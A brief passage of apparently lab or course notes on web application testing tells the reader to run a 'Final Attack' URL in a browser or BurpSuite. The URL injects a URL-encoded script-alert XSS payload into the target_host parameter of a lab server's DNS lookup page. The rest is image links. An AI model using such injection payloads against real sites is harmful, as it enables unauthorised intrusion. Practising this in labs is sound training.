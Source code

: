 - Copy the `Final Attack` payload and use it in the browser or BurpSuite to trigger the XSS attack
  - `http://192.131.167.3/index.php?page=dns-lookup.php&target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS`

![](1-webapp-httpassets/image-20230505000744558.png)

![](1-webapp-httpassets/image-20230505000524631.png)
